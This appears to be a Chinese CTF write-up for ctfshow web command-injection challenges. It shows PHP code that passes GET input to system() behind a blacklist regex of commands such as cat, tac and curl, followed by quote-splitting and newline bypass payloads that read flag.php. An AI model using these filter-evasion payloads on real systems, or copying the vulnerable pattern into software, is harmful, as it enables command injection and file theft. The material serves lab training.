 ```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:42:52
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了

> \;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/

怎么把我tac也过滤了

没事能绕过

```
t%27%27ac<fla%27%27g.php||
or
t%27%27ac<fla%27%27g.php%0a
```

#### web51

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:50:30
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```